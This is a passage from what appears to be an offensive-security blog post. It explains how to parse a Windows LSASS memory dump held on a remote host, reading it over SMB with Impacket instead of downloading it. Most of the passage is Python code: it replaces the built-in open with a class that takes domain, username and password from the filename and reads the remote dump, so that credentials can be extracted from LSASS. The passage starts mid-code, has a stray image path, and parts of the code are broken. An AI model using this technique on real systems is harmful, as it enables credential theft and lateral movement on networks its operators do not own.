 	        raise e
	    return mimi

It apperas that it’s `MinidumpFile` class from `minidump` package that handles the parsing. We need to go a little deeper and focus on [minidump](https://github.com/skelsec/minidump).

In `Minidumpfile` class, `parse` methode is described as follow :

	@staticmethod
	def parse(filename):
	    mf = MinidumpFile()
	    mf.filename = filename
	    mf.file_handle = open(filename, 'rb')
	    mf._parse()
		return mf

This is the code that we were looking for. The lsass dump that we are trying to analyze is opened and then parsed. The parsing is only using `read`, `seek` and `tell` method on the file object.

We just have to write some code than implements these methods but on a remote file. We’ll use Impacket for this purpose.

	"""
	'open' is rewritten to open and read a remote file
	"""
	class open(object):
	    def __init__(self, fpath, mode):
	        domainName, userName, password, hostName, shareName, filePath = self._parseArg(fpath)
	        """
	        ImpacketSMBConnexion is a child class of impacket written to simplify the code
	        """
	        self.__conn = ImpacketSMBConnexion(hostName, userName, password, domainName)
	        self.__fpath = filePath
	        self.__currentOffset = 0
	        self.__tid = self.__connectTree(shareName)
	        self.__fid = self.__conn.openFile(self.__tid, self.__fpath)

	    """
	    Parse "filename" to extract remote credentials and lsass dump location
	    """
	    def _parseArg(self, arg):
	        pattern = re.compile(r"^(?P<domainName>[a-zA-Z0-9.-_]+)/(?P<userName>[^:]+):(?P<password>[^@]+)@(?P<hostName>[a-zA-Z0-9.-]+):/(?P<shareName>[^/]+)(?P<filePath>/(?:[^/]*/)*[^/]+)$")
	        matches = pattern.search(arg)
	        if matches is None:
	            raise Exception("{} is not valid. Expected format : domain/username:password@host:/share/path/to/file".format(arg))
	        return matches.groups()

	    def close(self):
	        self.__conn.close()

	    """
	    Read @size bytes
	    """
	    def read(self, size):
	        if size == 0:
	            return b''
	        value = self.__conn.readFile(self.__tid, self.__fid, self.__currentOffset, size)
	        return value
